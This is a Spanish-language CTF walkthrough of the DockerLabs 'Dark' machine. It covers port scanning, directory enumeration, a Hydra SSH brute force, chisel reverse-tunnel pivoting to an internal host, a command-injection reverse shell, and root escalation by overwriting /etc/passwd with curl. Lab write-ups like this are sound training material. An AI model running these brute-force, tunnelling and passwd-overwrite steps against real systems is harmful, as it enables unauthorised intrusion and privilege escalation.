 ```yaml
---
title: Dark - DockerLabs
published: true
categories: DockerLabs
---
```


| OS    | Dificultad | Creator   |
| ----- | ---------- | --------- |
| Linux | Medio      | Mishineti |


## Escaneo y Reconocimiento de puertos

Con ARP scan miramos que IP's tenemos disponibles.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/90bbb5c4-e3e3-4e14-8ce1-a05e8c868d2f)

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/4ee4ae2b-05b5-4f1b-bc46-f1de388e2928)

`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `-sC`: Utiliza los scripts de reconocimiento por defecto de Nmap.
- `-sV`: Detecta la versión del servicio en los puertos abiertos.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

Vemos que esta abierto el puerto 22 `SSH` y el puerto 80 `HTTP`

## Enumeración Web
Si accedemos a la pagina web vemos lo siguiente 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/db8954cd-6eb6-4d53-a166-2583703be1a8)

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

Gobuster ha encontrado diferentes direcotrios

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2bec169f-7a35-4b87-8b1d-ce84fb315528)

Si accedemos al repositorio info vemos lo siguiente:

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/8a08e14b-8788-4b18-aafe-6d537e9d3b81)

Tenemos un posible usuario para poder acceder vía SSH vamos hacer fuerza bruta.

## Ataque de fuerza bruta con Hydra

Como tenemos un posible usuario, vamos hacer un ataque de fuerza bruta con Hydra al protocolo SSH de la siguiente forma:

`hydra -l toni -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.2`
- `-l` - Para especificar el usaurio
- `-P` - Para especificar que diccionario de fuerza bruta usaremos
- `ssh://10.10.10.2` - Especificamos que queremos atentar contra el protocolo SSH de la IP victima
- 
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0c95c5a3-f15f-4ee2-b08f-3d45c8727ff8)

Como vemos, existe el usuario `toni` y la contraseña es `banana`.


## Intrusión

Ahora accedemos vía SSH 

`ssh toni@172.17.0.2`

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/7ce27cf7-1115-4013-856d-10f61f12907a)

Vemos que tiene otra interfaz de red

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/4baaefbd-707f-421b-b223-5c236c196e71)

No veo la forma de como escalar privilegios en esta maquina ni con linpeas así que vamos a pasarnos chisel a esta maquina con curl y vamos a generar el tunel para redirigir el trafico de la 20.20.20.3 a nuestra maquina.

Nos pasamos el chisel a la maquina 10.10.10.2.

Ahora desde la máquina atacante nos ponemos en escucha con chisel.

```bash
chisel server --reverse -p 1234
```

Y en la maquina victima con IP 10.10.10.2 configuramos el chisel para que podamos ver desde la maquina 10.10.10.1 la IP 20.20.20.2.

```
./chisel client 10.10.10.1:1234 R:socks
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f24c31b6-32b8-4871-8463-4de85f3487b2)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/c0592109-763a-4865-8aee-816fbbd4ea8a)

Genial ya nos funciona como nos decía que tenia una web donde había subido la base de datos de la DGT etc...,vamos a configurar foxyproxy para acceder a la web de esa IP.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/8fa6d9ec-c1de-41fc-a33f-a6b539877270)

Ahora si accedemos a la IP 20.20.20.3 vemos lo siguiente:

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/ad0e6acf-9a40-4383-877e-3f1ac2808fbb)

Vamos a pasar-le gobuster haber si encuentra algún directorio interesante.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/23a69f7d-d75e-4575-812c-35b190ca8434)

no encontramos nada interesante, entonces vamos a probar de ingresar algo en el campo de busqueda.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/7f909a66-70b1-4456-a5b6-96cca72c2479)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/d520b7f4-c73c-4812-9808-134ceccd5519)

Vemos que nos muestra información del sistema

Ahora vamos a listar el /etc/passwd

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/bcf13bf7-a3e4-4a79-82d4-979e10efafe9)

No vemos un posible usuario para hacer fuerza bruta entoces lo que voy hacer sera mandarme una reverse shell


Lo que podemos hacer es mandarnos una reverse shell a la maquina 20.20.20.2 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/461d5b5d-2db0-4a78-b68b-e00879b22cee)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/1e0eb547-4698-4a61-82b4-3b27d76cf02e)

Al estar investigando un rato vemos que no hay nada interesante para poder escalar privilegios lo que podemos hacer es usar curl para poder modificar el archivo /etc/passwd y así acceder al root.

Veamos como se hace esto

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/92431d1e-d6e4-4447-b0f1-25132e037929)

Copiamos el passwd a la carpeta /tmp

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a9e743a2-9431-4b5d-8b9a-d93f2cf997ed)

Ahora eliminamos la primera x que tiene root y guardamos

Ahora hacemos el siguiente comadno

```
curl file:///tmp/passwd -o /etc/passwd
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/6d37694c-1514-4542-bbf2-55243d7b78ff)

Si hacemos un cat a /etc/passwd ahora vemos que en root ya no tiene la x.

Esto sucede debido a cómo se manejan los permisos y la propiedad del archivo en Linux

Ahora solo queda hacer su root y escalaremos a root sin necesidad de introducir contraseña

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/27d34c2b-11a8-4ccb-a656-da85871b1037)

Ya somos ROOT
